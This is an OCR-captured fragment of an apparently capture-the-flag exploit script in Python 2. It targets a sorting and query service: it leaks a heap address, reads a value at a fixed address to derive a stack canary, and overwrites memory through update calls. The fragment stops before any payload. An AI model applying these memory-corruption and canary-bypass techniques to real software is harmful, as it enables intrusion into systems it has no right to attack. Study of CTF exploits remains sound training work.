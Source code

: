 ```
       #sub_update(io, 9, 0x7ffffff0)
       sub_query(io, 16)
 
       io.read_until("[*L*] Query result: ")
       data = io.read_until("n")[:-1]
       heap_addr = int(data)
       data_buff = heap_addr
       print "data_buff:", hex(data_buff)
       sub_quit(io)
 
       #prepare
       seq = ["1"] * 6
       sort(io, seq)
       sub_sort(io)
       sub_quit(io)
 
       seq = ["1"] * 2
       sort(io, seq)
       sub_sort(io)
       sub_quit(io)
 
       clear(io)
 
       seq = ["1"] * 2
       sort(io, seq)
       sub_sort(io)
 
       rand_val_addr = 0x0804C04C
       sub_update(io, 2, rand_val_addr)
       sub_quit(io)
 
       history(io)
       io.read_until("[*L*] ID = 0")
       io.read_until("Len = ")
       data = int(io.read_until(", Data")[:-6])
       rand_val_addr = struct.unpack("I", struct.pack("i", data))[0]
 
       print "rand_val_addr:", hex(rand_val_addr)
       #io.gdb_hint()
       ###
 
       seq = ["1"] * 6
       sort(io, seq)
       sub_sort(io)
      
       print "canary:", hex(0xfffffffe ^ rand_val_addr)
       canary = struct.unpack("i", struct.pack("I", 0xfffffffe ^ rand_val_addr))[0]
      
       sub_update(io, 0, -2 )
       sub_update(io, 1, canary)
 
      
       zero_area = data_buff + (22) * 4
       sub_update(io, 6, zero_area)
       sub_quit(io)
 
       history(io)
       #io.read_until("ID = 1")
       #io.read_until("Data = 2 ")
       #data = int(io.read_until(" ")[:-1])
       #heap_addr = struct.unpack("I", struct.pack("i", data))[0]
 
       #print "heap_addr:", hex(heap_addr)
```